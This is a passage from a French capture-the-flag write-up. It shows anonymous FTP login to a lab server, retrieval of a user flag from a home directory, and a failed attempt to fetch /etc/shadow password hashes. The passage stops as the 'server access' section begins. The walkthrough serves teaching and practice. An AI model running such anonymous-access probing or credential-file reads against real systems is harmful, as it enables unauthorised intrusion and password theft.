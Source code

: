 ## 2. Serveur {% include dictionary.html word="FTP" %}

Nous pouvons nous connecter au serveur et explorer son contenu.

```bash
ftp anonymous@10.10.106.181
Connected to 10.10.106.181.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||21366|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||5815|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||19695|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***************************************************|    33       36.74 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.98 KiB/s)
```

Nous y trouvons un dossier personnel de l'utilisateur Melodias et nous avons la possibilité de récupérer le fichier contenant le flag utilisateur.

Nous pouvons le lire sur notre machine :

```bash
cat user.txt
606083[...expurgé...]706af8
```

En revanche, le dossier `/root` n'est pas accessible de cette manière.

## 3. Accès au serveur

### 3.1 Récupération du fichier Shadow

La tentative de récupérer le fichier `/etc/shadow` contenant les hashes de mot de passe n'a pas fonctionné. Les utilisateurs anonymes n'y ont pas accès.
